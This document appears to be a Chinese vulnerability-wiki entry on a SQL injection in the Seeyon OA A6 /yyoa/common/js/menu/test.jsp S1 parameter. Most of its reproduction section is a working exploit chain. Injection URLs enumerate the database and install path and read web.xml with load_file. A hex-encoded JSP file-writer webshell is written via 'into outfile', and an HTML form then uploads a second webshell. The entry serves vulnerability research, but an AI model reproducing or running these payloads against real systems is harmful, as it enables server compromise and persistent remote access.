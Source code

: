 致远OA A6 test.jsp sql注入漏洞
==============================

一、漏洞简介
------------

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

注入点为S1变量，通过探测，发现是mysql数据库

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=

于是构造注入语句查询数据库名：

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA6test.jspsql注入漏洞/media/rId24.png)

Mysql注入中，我们使用into outfile
来写入数据，用此方法注入webshell，前提条件两个：

-   1：root权限

-   2：物理路径

我们探测一下web根目录

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA6test.jspsql注入漏洞/media/rId25.png)

通过yyoa目录结构猜测物理路径为

    F:/UFseeyon/OA/tomcat/webapps/yyoa/

可以使用load\_file判断是否正确

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27)

利用mysql into
outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

    <%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27

本地构造上传：

    <html>
        <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
            <textarea name=t cols=120 rows=10 width=45>your code</testarea>
            <input type=submit value="提交">
        </form>
    </html>

上传后获取webshell地址为：<http://www.0-sec.org/yyoa/we1come.jsp>

参考链接
--------

> <https://www.pa55w0rd.online/yyoa/>
